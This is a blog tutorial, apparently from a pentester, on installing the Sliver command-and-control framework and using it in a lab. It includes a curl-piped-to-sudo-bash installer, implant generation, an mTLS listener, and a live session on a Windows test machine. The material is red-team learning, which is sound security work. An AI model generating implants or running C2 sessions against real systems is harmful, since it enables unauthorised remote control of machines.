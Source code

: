 ```yaml
---
layout: post
title: "The Sliver C2 Installation and Demo"
author: ha3ks
date: 2023-10-09
tags: blog ctf pentesting c2 sliver
category: Tooling
---
```


[![1](/assets/blog/sliver_C2/1.png)](/assets/blog/sliver_C2/1.png)

Hey Friends, today we are taking a look at Sliver (the C2). You may have heard of it, you may have seen it, hell you could even be an expert in it's use but if you are anything like me you have seen 'C2' and thought 'that would be cool one day' and then never got around to even trying it.

Well look no further, I am here to show you how easy it is to get running and get rolling, so let's get right into it!

First things first, we need to bust open a terminal and head over to where you want to run the install, the majority of the time this will be '/opt' in Kali (/opt is used for installing third party packages and it pays to keep things 'uniform'):

```
cd /opt
```

After that we want to get a copy of Sliver onto our machine. Handily as Bishop Fox put it all online in a tidy git repo it allows us to do a quick little git clone and we are away:

```
sudo git clone https://github.com/BishopFox/sliver.git
```

This latest version (1.6.0 at time of writing) features: 

* Dynamic code generation
* Compile-time obfuscation
* Multiplayer-mode
* Staged and Stageless payloads
* Procedurally generated C2 over HTTP(S)
* DNS canary blue team detection
* Secure C2 over mTLS, WireGuard, HTTP(S), and DNS
* Fully scriptable using JavaScript/TypeScript or Python
* Windows process migration, process injection, user token manipulation, etc.
* Let's Encrypt integration
* In-memory .NET assembly execution
* COFF/BOF in-memory loader
* TCP and named pipe pivots
* Much more!

Once downloaded an 'ls' command should show a 'sliver' folder now in our /opt folder.

[![2](/assets/blog/sliver_C2/2.png)](/assets/blog/sliver_C2/2.png)

Now we can navigate into the sliver folder:

```
cd sliver
```

Next task is to run the installation for sliver, the following is a handy oneliner shown on the README for sliver and does the job for us:

```
curl https://sliver.sh/install|sudo bash
```

Finally you can run sliver by entering 'sliver' into the terminal (this works in any directory BTW, it's a 'global' attribute so you could open a terminal anywhere on your machine and type in 'sliver' and get going).

[![3](/assets/blog/sliver_C2/3.png)](/assets/blog/sliver_C2/3.png)

Ok, so that wasn't so hard.

As with all tooling if you are unsure how to us it.... just run the 'help' command:

```
sliver > help

Commands:
=========
  clear       clear the screen
  exit        exit the shell
  help        use 'help [command]' for command help
  monitor     Monitor threat intel platforms for Sliver implants
  wg-config   Generate a new WireGuard client config
  wg-portfwd  List ports forwarded by the WireGuard tun interface
  wg-socks    List socks servers listening on the WireGuard tun interface


Generic:
========
  aliases           List current aliases
  armory            Automatically download and install extensions/aliases
  background        Background an active session
  beacons           Manage beacons
  builders          List external builders
  canaries          List previously generated canaries
  cursed            Chrome/electron post-exploitation tool kit (∩｀-´)⊃━☆ﾟ.*･｡ﾟ
  dns               Start a DNS listener
  env               List environment variables
  generate          Generate an implant binary
  hosts             Manage the database of hosts
  http              Start an HTTP listener
  https             Start an HTTPS listener
  implants          List implant builds
  jobs              Job control
  licenses          Open source licenses
  loot              Manage the server's loot store
  mtls              Start an mTLS listener
  prelude-operator  Manage connection to Prelude's Operator
  profiles          List existing profiles
  reaction          Manage automatic reactions to events
  regenerate        Regenerate an implant
  sessions          Session management
  settings          Manage client settings
  stage-listener    Start a stager listener
  tasks             Beacon task management
  update            Check for updates
  use               Switch the active session or beacon
  version           Display version information
  websites          Host static content (used with HTTP C2)
  wg                Start a WireGuard listener


Multiplayer:
============
  operators  Manage operators


For even more information, please see our wiki: https://github.com/BishopFox/sliver/wiki
```

Now remember I am not an expert here I am just playing around to test it's functionality.

Having done some of the Red Team Operator Certification from ZeroPoint Security I am familiar with using Cobalt Strike, so the next step would be generating some kind of Beacon or Implant, getting it over to a victim machine and connecting to it.

To generate a generic implant we can use:

```
generate --mtls <your ip> --arch <OS type> --save <output directory>
```

[![4](/assets/blog/sliver_C2/4.png)](/assets/blog/sliver_C2/4.png)

Once complete it will have created a payload in your desired location. Since I can drag and drop I picked my desktop (above) though if you wanted to you could spin up a HTTP server on your attacker machine and navigate to the address on your victim and download it:

[![5](/assets/blog/sliver_C2/5.png)](/assets/blog/sliver_C2/5.png)

Neat!

Also it's worth noting that the implant that has been generated is a bit hefty... 

[![6](/assets/blog/sliver_C2/6.png)](/assets/blog/sliver_C2/6.png)

I'm entirely sure there are ways to shrink this down to a more manageable size and as such less detectable but I just want to get it working and size doesn't matter...

Now that the implant is on the machine we need to get Sliver 'listening' for incoming requests by running 'mtls':

```
sliver > mtls
```

Ok to recap, we have our C2 server listening for a connection, we have our implant on the target... Let's see what happens when we run it:

[![7](/assets/blog/sliver_C2/7.png)](/assets/blog/sliver_C2/7.png)

*Clicks Run*

It has successfully executed on the victim (no other popups or warnings) and we can see it in the task manager:

[![8](/assets/blog/sliver_C2/8.png)](/assets/blog/sliver_C2/8.png)

Also on the Kali side, we can see Sliver has picked up the new connection:

[![9](/assets/blog/sliver_C2/9.png)](/assets/blog/sliver_C2/9.png)

Hooked!

# Now What?

Well now we can view 'sessions' and confirm the machine is accessable:

```
sliver > sessions

 ID         Transport   Remote Address          Hostname       Username              Operating System   Health  
========== =========== ======================= ============== ===================== ================== =========
 c1c1758c   mtls        192.168.197.129:60896   CORP-CLIENT1   HA3KS\Administrator   windows/386        [ALIVE] 
```

We can interact with a session by entering it's ID much like Meterpreter:

```
sessions -i c1c1758c
```

And finally, get a little bit of recon going:

[![10](/assets/blog/sliver_C2/10.png)](/assets/blog/sliver_C2/10.png)

It's as easy as that!

Now again you can do more with this and get things a little better obfuscated. For giggles I put the .exe into VirusTotal:

[![11](/assets/blog/sliver_C2/11.png)](/assets/blog/sliver_C2/11.png)

Ouch!

Good for a demo though.

Now you might be thinking "oh he's using Kali Linux, he's cheating" well, ok this is Sliver running on Ubuntu 22.04.3 LTS:

[![12](/assets/blog/sliver_C2/12.png)](/assets/blog/sliver_C2/12.png)

Also Parrot Security Edition 5.3:

[![13](/assets/blog/sliver_C2/13.png)](/assets/blog/sliver_C2/13.png)

Hehehe 'PROVINCIAL_BIKINI'

It works if you will it to... I wanted to try Hannah Montana Linux but since ubuntu took down the old versions of jammy it can't update anymore.. I'm sure with some time and further effort I could get it to upgrade and as such get Sliver running on it... Maybe a job for another day.

I hope this has been helpful/educational to people.

Be Safe 🤙

-------

I don't have any sponsors or anything but if you enjoy my work, or feel sympathy for my wife, then I have set up a [Ko-Fi account](https://ko-fi.com/ha3ks) as well as a [BuyMeACoffee](https://www.buymeacoffee.com/ha3ks) people can donate to.